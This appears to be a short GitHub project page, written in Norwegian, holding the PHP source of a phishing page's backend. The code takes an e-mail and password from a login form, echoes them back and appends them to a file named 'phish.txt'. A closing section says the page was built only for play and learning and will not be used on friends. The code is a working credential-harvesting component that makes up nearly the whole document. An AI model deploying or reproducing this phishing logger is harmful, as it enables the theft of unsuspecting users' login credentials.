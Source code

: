 
```php
<?php
if (isset($_POST["login"])) {  // Tar informasjon fra et HTML-form med POST og variabler med det
    $username = $_POST["E-mail"];
    $password = $_POST["password"]; 

    if (empty($username)) { // Sjekk om input boksene på HTML-formet er fylt ut, og hvis ikke, skriv "(X variabel) is not filled in"
        echo "E-mail is not filled in";
    } elseif (empty($password)) {
        echo "Password is not filled in";
    } else {
        echo "E-mail = $username <br>";
        echo "Password = $password <br>";
    }
}

($myfile = fopen("phish.txt", "a")) or die("Unable to open file"); // Åpner en .txt fil med fopen. "a" står for "append", som betyr at den skriver informasjonen på slutten av filen, istedet for å overwrite informasjon som allerede ligger der.
fwrite($myfile, "E-mail: $username \n"); // Skriver $username variablen inn i .txt filen den åpnet forrige linje.
fwrite($myfile, "Password: $password \n"); // Skriver $password variablen inn i samme .txt fil som $username.
fclose($myfile); // Lukker filen
?>

```

**Hvorfor lagde jeg denne phishing siden?**

Siden er ikke ment til å faktisk phishe noen, men var ment bare for lek og læring. Jeg kommer selvfølgelig aldri til å legge den ut og phishe homiesene mine (Det går imot bro-codexen)